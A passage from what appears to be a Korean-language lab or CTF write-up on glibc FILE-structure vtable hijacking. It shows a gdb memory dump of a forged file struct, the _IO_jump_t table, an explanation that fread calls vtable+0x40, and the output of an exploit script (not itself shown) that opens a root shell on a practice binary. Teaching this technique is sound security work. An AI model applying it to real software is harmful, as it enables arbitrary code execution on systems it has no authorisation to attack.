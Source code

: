 ```zsh
0x601190 <name+240>:    0x0000000000000000      0x0000000000000000
0x6011a0 <fp>:  0x00000000006010a0      0x0000000000000000
0x6011b0:       0x0000000000000000      0x0000000000000000
0x6011c0:       0x0000000000000000      0x0000000000000000
0x6011d0:       0x0000000000000000      0x0000000000000000
0x6011e0:       0x0000000000000000      0x0000000000000000
0x6011f0:       0x0000000000400736      0x0000000000000000
```

파일 포인터를 사용하는 함수가 있다면 `name` 버퍼를 참조하게 된다.

구성한 가짜 파일 구조체에서 중요한 것은 table을 `0x6011b0` 주소로 조작한 것이다. `fread` 함수는 vtable의 주소로부터 `0x40` 만큼 떨어진 함수를 호출하는데, 그 이유는 다음과 같다.

```c
static const struct _IO_jump_t jumps =
{
  JUMP_INIT_DUMMY,
  JUMP_INIT (finish, method_finish),
  JUMP_INIT (overflow, method_overflow),
  JUMP_INIT (underflow, method_underflow),
  JUMP_INIT (uflow, method_uflow),
  JUMP_INIT (pbackfail, method_pbackfail),
  JUMP_INIT (xsputn, method_xsputn),
  JUMP_INIT (xsgetn, method_xsgetn),          // here
  JUMP_INIT (seekoff, method_seekoff),
  JUMP_INIT (seekpos, method_seekpos),
  JUMP_INIT (setbuf, method_setbuf),
  JUMP_INIT (sync, method_sync),
  JUMP_INIT (doallocate, method_doallocate),
  JUMP_INIT (read, method_read),
  JUMP_INIT (write, method_write),
  JUMP_INIT (seek, method_seek),
  JUMP_INIT (close, method_close),
  JUMP_INIT (stat, method_stat),
  JUMP_INIT (showmanyc, method_showmanyc),
  JUMP_INIT (imbue, method_imbue)
};
```

앞서 말했듯이 `fread` 함수가 호출되면 `_IO_sgetn` 함수가 호출된다. `_IO_jump` 구조체를 보면 8번째에 해당 함수가 존재하기 때문에 `vtable + 0x40` 를 참조하여 호출하게 된다.

구성한 가짜 파일 구조체에 따르면 `0x6011b0 + 0x40` 위치의 함수가 호출되므로 `0x6011f0` 주소에 `getshell` 함수 주소를 입력하면 쉘을 획득할 수 있다.

```zsh
╭─root@f89dba98d1b0 ~
╰─➤  python3 fp_vtable.py
[+] Starting local process './fp_vtable': pid 534
[*] '/root/fp_vtable'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
b'Name:'
[*] Switching to interactive mode
 $ id
uid=0(root) gid=0(root) groups=0(root)
$
```